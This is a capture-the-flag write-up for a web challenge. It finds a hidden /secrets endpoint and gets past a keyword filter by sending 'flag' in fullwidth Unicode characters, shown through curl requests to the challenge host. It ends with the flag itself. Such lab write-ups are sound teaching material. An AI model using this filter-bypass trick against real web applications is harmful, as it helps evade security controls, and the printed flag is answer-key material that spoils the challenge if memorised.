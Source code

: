 # Bad Waf No Donut - Web Exploitation

## Ideas
There is a hidden `/secrets` path in the source of `/explore`.

```html
<script>
function isAdmin() {
  let cookie = decodeURIComponent(document.cookie);
  let cookie_values = cookie.split(';');
  for(let i = 0; i <cookie_values.length; i++) {
    let c = cookie_values[i];
    while (c.charAt(0) == ' ') {
      c = c.substring(1);
    }
    if (c.indexOf("admin") == 0) {
      if (c.substring(name.length, c.length).indexOf("true")) { return true; }
    }
  }
  return false;
}
if (isAdmin()){
    document.getElementById("content").innerHTML = '<a href="/secrets">secrets</a>';
}
else {
    document.getElementById("content").innerHTML = '<ul><li><a href="/books">books</a></li><li><a href="/cats">cats</a></li><li><a href="/shopping_list">shopping list</a></li></ul>';
}
</script>
```
This content of `/secrets`:
``` bash
➜ curl https://nessus-badwaf.chals.io/secrets
<html>
<body>

    <h1>🅢🅔🅒🅡🅔🅣🅢</h1>
    <p>I only know one secret, but you gotta know how to ask.</p>
    <!-- Try asking with a "secret_name" post parameter -->
    
</body>
</html>
```
Follow the hint so the response is changed to
```
➜ curl https://nessus-badwaf.chals.io/secrets -d "secret_name="
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>

```
Found the value correct of `secret_name` value parameter is `flag`

```
➜ curl https://nessus-badwaf.chals.io/secrets -d "secret_name=flag"
🤐You know what to ask for, but you're not asking correctly.
```

Convert the `flag` to Unicode using https://qaz.wtf/u/convert.cgi to ｆｌａｇ 
```
➜ curl https://nessus-badwaf.chals.io/secrets -d "secret_name=ｆｌａｇ"
flag{h0w_d0es_this_even_w0rk}
```


## Flag
flag{h0w_d0es_this_even_w0rk}
